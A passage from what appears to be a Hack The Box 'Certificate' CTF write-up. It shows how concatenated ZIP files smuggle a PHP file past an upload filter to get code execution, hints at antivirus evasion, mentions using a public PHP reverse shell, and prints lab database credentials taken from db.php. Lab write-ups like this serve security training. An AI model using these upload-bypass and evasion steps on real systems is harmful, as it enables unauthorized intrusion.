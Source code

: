 The technique allows us to pass the first check because the application only sees the normal file in the ZIP, but when WinRAR extracts it, it sees the second file header for our smuggled ZIP and will gladly extract it to the web directory, allowing us to write PHP files and get code execution.

To confirm that we have PHP code execution, I used a simple echo for sanity check.

```php
<?php echo "asdlkfadfjladsf"; ?>
```

Create our double loaded ZIP.

```shell
# Benign ZIP
zip a.zip test.pdf

# ZIP containing our PHP code
zip b.zip test.php

# Doule loaded ZIP
cat a.zip b.zip > c.zip
```

The website only gives us the URL to the benign file in the first ZIP, but if we navigate to the PHP file under the same directory, we get PHP code execution!

![alt text](/assets/img/2025-10-05-htb-certificate/phpexec.png)

Now that we've confirmed code execution, I tried uploading PHP files to execute system commands, but they were quickly getting removed from the website.
This meant that the machine likely had anti-virus enabled and our PHP code was getting detected.
Here, I noticed that using `passthru` and using the `_REQUEST` or `_POST` superglobals were triggering it.
I was able to get working command execution using `system` and `_GET`, then I used [Ivan Sincek's PHP reverse shell](https://github.com/ivan-sincek/php-reverse-shell) to get a shell as xamppuser.

## Shell as sara.b

### Findings credentials from the database

The xamppuser user account doesn't have any special privileges, so I looked for credentials to pivot.
I found the database connection file in `c:\xampp\htdocs\certificate.htb\db.php`.

```shell
C:\xampp\htdocs\certificate.htb>type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
```
